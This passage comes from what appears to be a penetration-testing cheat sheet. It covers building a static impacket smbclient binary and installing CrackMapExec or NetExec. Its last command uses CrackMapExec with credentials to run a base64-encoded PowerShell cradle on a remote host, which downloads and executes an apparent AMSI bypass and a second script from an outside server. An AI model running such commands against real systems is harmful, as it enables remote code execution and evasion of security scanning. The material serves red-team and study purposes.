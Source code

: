 ```
$ git clone https://github.com/fortra/impacket /tmp/impacket && cd /tmp/impacket
$ docker run -it -v `pwd`:/app -w /app ubuntu:22.04
# apt update && apt install python3-dev python3-pip patchelf file -y
# pip install . pyinstaller staticx
# pyinstaller --specpath /tmp/spec --workpath /tmp/build --distpath /tmp/out --clean -F examples/smbclient.py [--collect-submodules gssapi.raw]
# staticx /tmp/out/smbclient examples/smbclient.py.elf
# file examples/smbclient.py.elf
examples/smbclient.py.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped
```
{% endtab %}
{% endtabs %}



### {Crack,Sharp,Ps}MapExec / NetExec

- [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
- [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
- [https://github.com/cube0x0/SharpMapExec](https://github.com/cube0x0/SharpMapExec)
- [https://github.com/The-Viper-One/PsMapExec](https://github.com/The-Viper-One/PsMapExec)
- [https://github.com/seriotonctf/cme-nxc-cheat-sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)
- [https://github.com/Pennyw0rth/NetExec-Lab](https://github.com/Pennyw0rth/NetExec-Lab)

![CrackMapExec Mindmap](https://raw.githubusercontent.com/Ignitetechnologies/Mindmap/main/Crackmapexec/Crackmapexec%20UHD.png)

Install bleeding-edge:

```
$ sudo apt install python3-venv && pip3 install pipx
$ pipx install -f "git+https://github.com/Porchetta-Industries/CrackMapExec.git"
$ cme
```

[aardwolf](https://github.com/skelsec/aardwolf) requires Rust compiler to be also installed:

```
$ sudo snap install rustup --classic
$ rustup toolchain install stable
```

Install for debugging and development:

```
$ git clone --recursive https://github.com/Porchetta-Industries/CrackMapExec ~/tools/CrackMapExec && cd ~/tools/CrackMapExec
$ poetry install
$ poetry run crackmapexec
```

Execute a PowerShell command using base64 encoding on-the-fly:

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x "powershell -enc `echo -n 'iex(new-object net.webclient).downloadstring("http://10.10.13.37/amsi.ps1");iex(new-object net.webclient).downloadstring("http://10.10.13.37/cradle.ps1")' | iconv -t UTF-16LE | base64 -w0`"
```
